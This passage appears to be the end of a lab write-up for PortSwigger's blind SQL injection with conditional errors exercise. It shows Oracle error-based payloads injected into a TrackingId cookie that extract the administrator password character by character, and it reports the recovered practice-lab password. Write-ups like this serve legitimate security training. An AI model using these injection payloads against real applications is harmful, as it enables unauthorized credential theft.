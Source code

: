 ![First character](/docs/assets/images/portswigger/sqli/blindsqli/conditionalerrors/ce20.png)

Now I just need to edit the query inside the *Positions* tab so that I test against the next character in the password substring. For example to test against the second position the query would read: 

`TrackingId=45o4t4APu4sxjqmv'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 

Then to test against the third position it would read:   

`TrackingId=45o4t4APu4sxjqmv'||(SELECT CASE WHEN SUBSTR(password,3,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 

And so on... 

Continuing this process through all 20 character positions I am eventually able to determine *administrator* users *password* `nzghq30kgg1kv3t4yebv` 

Logging in with the credentials *admnistrator:nzghq30kgg1kv3t4yebv* completes the lab. 
